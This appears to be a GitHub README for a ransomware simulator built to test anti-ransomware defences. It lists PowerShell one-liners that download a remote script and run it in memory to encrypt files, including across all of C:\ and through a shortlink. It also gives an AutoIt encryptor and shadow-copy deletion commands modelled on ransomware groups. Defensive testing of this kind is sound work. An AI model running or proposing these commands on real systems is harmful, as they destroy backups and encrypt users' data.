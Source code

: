 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

You may use shortlinks as well, example: 

PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu");Invoke-RansomSIM -Mode Encrypt -Path 'C:\';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# AutoIt
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

RansomSIM.exe /encrypt C:\
  
Decryption - 

RansomSIM.exe /decrypt C:\

# Simulator for shadow copy manipulation
an aggregation of technique as implemented by ransomware groups to delete shadow copies, usually is performed before the ransomware encryption

Example ('All','VssDeleteAll', 'WmiDeleteAll', 'VssResize', 'DeleteEach', 'CimDelete', 'NativeDelete'):

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM"); Invoke-ShadowDeleteSIM -Mode All -Volume 'C:\\'

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM"); Invoke-ShadowDeleteSIM -Mode VssDeleteAll -Volume 'C:\\'

